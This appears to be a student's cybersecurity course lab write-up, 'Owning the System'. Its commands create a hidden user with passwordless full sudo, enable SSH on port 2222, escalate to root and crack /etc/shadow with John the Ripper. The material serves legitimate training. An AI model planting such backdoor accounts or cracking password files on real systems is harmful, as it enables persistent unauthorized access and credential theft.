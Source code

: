 Week 6: Advanced Bash - Owning the System
Step 1: Shadow People

 1.  Create a secret user named sysd. Make sure this user doesn't have a home folder created:

         root:~\ $ useradd --no-create-home sysd

 2.  Give your secret user a password:
        
         root:~\ $ passwd sysd

 3.  Give your secret user a system UID < 1000:

         root:~\ $ usermod -u 37 sysd

 4.  Give your secret user the same GID:

         root:~\ $ usermod -u 37 -g 37 sysd 

 5.  Give your secret user full sudo access without the need for a password:

         root:~\ $ visudo

   #includedir /etc/sudoers.d

        sysd ALL=(ALL) NOPASSWD:ALL
        
 6.  Test that sudo access works without your password: 
        
         $ su sysd
         $ sudo -k
         $ sudo -v
         $ sudo -l


Step 2: Smooth Sailing
 1.  Edit the sshd_config file:
![](Images/john_shadow.png)


Step 3: Testing Your Configuration Update
 1.  Restart the SSH service:
   
         root:~\ $ systemctl restart sshd

 2.  Exit the root account:
  
         root:~\ $ exit
         sysadmin:~\ $ exit

 3.  SSH to the target machine using your sysd account and port 2222:

         sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

 4.  Use sudo to switch to the root user:
    
         $ sudo su

Step 4: Crack All the Passwords
 1.  SSH back to the system using your sysd account and port 2222:

         root@scavenger-hunt:/# ssh sysd@192.168.6.105 -p 2222

 2.  Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
   
         $ sudo john /etc/shadow
    
![](Images/john_shadow.png)


